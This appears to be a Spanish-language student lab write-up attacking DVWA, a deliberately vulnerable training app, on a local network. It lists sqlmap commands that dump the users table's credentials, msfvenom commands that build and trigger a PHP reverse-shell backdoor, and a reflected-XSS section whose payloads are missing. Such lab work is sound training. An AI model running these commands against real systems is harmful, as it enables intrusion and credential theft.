

# Act. 2.2 Realizar los siguientes Ataques al DVWA.

### 1. inyección SQL.

Primeramente mediante el uso de la terminal de comandos, obtendremos la dirección ip en la cual esta alojado nuestro servidor de dvwa.

    ipaddr

Luego, mediante el uso del navegador FireFox Development Edition, obtendremos su ID de inicio de sesión.

Posterior a la obtención de estos datos, procederemos con la utilización de sqlmap

A) Muestreo de la descripción e información básica acerca de la base de datos.

    sqlmap -u "http://192.168.68.105/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=f7gl80r2dossg034sjli4g3bav;security=low"

B) Muestreo de las bases de datos disponible.

    sqlmap -u "http://192.168.68.105/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=f7gl80r2dossg034sjli4g3bav;security=low" --dbs

C) Muestreo de las bases de las tablas disponibles.

    sqlmap -u "http://192.168.68.105/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=f7gl80r2dossg034sjli4g3bav;security=low" --tables

D) Muestreo de las bases de las columas disponibles de una tabla.

    sqlmap -u "http://192.168.68.105/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=f7gl80r2dossg034sjli4g3bav;security=low" -D dvwa -T users --columns

D) Muestreo de los usuarios y contraseñas de una tabla.

    sqlmap -u "http://192.168.68.105/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=f7gl80r2dossg034sjli4g3bav;security=low" -D dvwa -T users --dump

Contenido audiovisual complementario: https://www.youtube.com/watch?v=i1yle_9cJXw

### 2. Subida de Archivos.

A) Muestreo de la lista de las cargas utiles disponibles en esta herramienta.

    msfvenom -l payloads

En este caso ocuparemos reverse_php

B) Creamos el archivo backdoor.php

    msfvenom -p php/reverse_php lhost=192.168.68.107 lport=4444 -f raw -o backdoor.php

Y verificamos su existencia con:

    ls

C) Subimos el archivo backdoor.php a nuestro dvwa

¡Importante!, esta la posibilidad de que dvwa tenga desacctivo por defecto la subida de archivos, por lo cual en caso de que tengas un error puedes ejecutar los siguientes comandos en tu servidor para actualizar los permisos:

    sudo chown -R www-data:www-data /var/www/html/dvwa/hackable/uploads/
    sudo chmod -R 755 /var/www/html/dvwa/hackable/uploads/

Luego compruebas su funcionamiento creando un archivo de prueba

    sudo -u www-data touch /var/www/html/dvwa/hackable/uploads/test.txt

Y verificamos su existencia con:

    cd /var/www/html/dvwa/hackable/uploads/
    ls

D) Ya por ultimo abrimos una nueva ventana y ejecutamos nuestro backdoor.php

    http://192.168.68.107/dvwa/hackable/uploads/backdoor.php

Este nos mostrara un texto por defecto, siendo que en caso de backdoor.php nos refleja /\*

### 3. XSS Reflejado.

A) Incrustamos el siguiente codigo JavaScript en dvwa.

    

Este nos mostrara el nivel de seguridad de nuestra aplicación, ya a partir de este ejemplo puedes agregar el codigo JavaScript que gustes.

Ej:

    

